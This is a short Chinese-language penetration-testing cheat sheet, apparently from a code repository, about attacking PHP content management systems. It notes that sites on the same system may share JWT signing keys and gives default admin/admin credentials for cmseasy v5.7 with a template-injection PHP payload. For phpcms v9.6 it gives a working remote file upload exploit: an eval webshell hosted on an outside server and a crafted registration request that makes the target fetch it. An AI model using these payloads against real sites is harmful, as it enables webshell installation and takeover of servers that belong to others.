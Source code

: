 phpcms：
帝国cms
苹果cms
Drupal
wordpress
discuz


同一套系统的不同站点的jwt加密密钥可能相同。


^
#### **cmseasy php系统v5.7**
admin/admin
后台模板-自定义标签，使用payload，预览即可。
```
1111";}<?php phpinfo() ?>
```


^
## **phpcms v9.6**
安装路径/install/install.php
存在远程任意文件上传
```
http://xx.xx.xx.xx/1.txt存放内容如下:
<?php @eval($_POST[1]);?>
```
注册抓包改包
```
POST /index.php?m=member&c=index&a=register&siteid=1 HTTP/1.1

siteid=1&modelid=11&username=test452&password=test2123&email=test2154@163.com&info[content]=<img src=http://xx.xx.xx.xx/1.txt?.php#.jpg>&dosubmit=1&protocol=
```
此时会回显上传的路径